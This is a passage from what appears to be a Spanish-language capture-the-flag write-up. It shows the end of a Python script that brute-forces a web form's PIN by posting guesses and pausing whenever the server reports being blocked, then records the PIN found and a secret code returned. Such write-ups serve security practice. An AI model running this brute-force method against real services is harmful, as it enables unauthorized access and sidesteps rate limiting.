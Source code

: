 ```python
		}
		
		p1.status(f'Checking --> {pin}')

		res= requests.post(url, headers=headers, files=files)
		res_json=json.loads(res.text)
	
		if res_json["status"] == "blocked":
			time.sleep(30)
		elif res_json["status"] != "blocked" and res_json["status"] != "failed":
			p2.status(f'Pin --> {pin}')
			break

if __name__=="__main__":
	inyection()
```

Y encuentra el código **0081**

![code-py](screenshots/code-py.png)

Lo introducimos y la web nos da un secret code: **bbb2c5e63d2ef893106fdd0d797aa97a**

![secret-code](screenshots/secret-code.png)
